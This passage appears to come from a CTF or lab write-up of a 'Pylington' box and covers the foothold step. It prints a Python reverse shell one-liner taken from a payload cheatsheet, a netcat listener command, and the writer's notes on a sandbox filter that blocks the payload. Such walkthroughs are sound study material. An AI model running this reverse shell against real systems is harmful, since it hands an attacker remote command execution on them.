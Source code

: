```bash
===============================================================                                                                                          Finished                                                                                                                                                 ===============================================================
```

---
---

# Foothold 🦶

[This GitHub repository - swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) contains a bunch of payloads for penetration testing. If you go to Methodology and Resources
/Reverse Shell Cheatsheet.md, then you python then you will get this [website](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python) , take the 2nd option of the python script in the IPv4 category.

```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

- paste this to the "Program" inside the secret Python IDE
- remove `python -c `
- add your IP address and the port of your liking... I go with port 1337 😉😜

![Pylington](py_program.png)

- Before anything, we should start net cat and start listening 🎧🔈🐈‍⬛🐈

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337    
```

### Oh no! H4CK3R AL3R7
H4CK3R AL3R7!!! Malicious program detected by the sandbox

Anyway, there might be a hint about using exec in the sentence "This way attackers won't be able to <u>exec</u>ute anything malicious :-)"
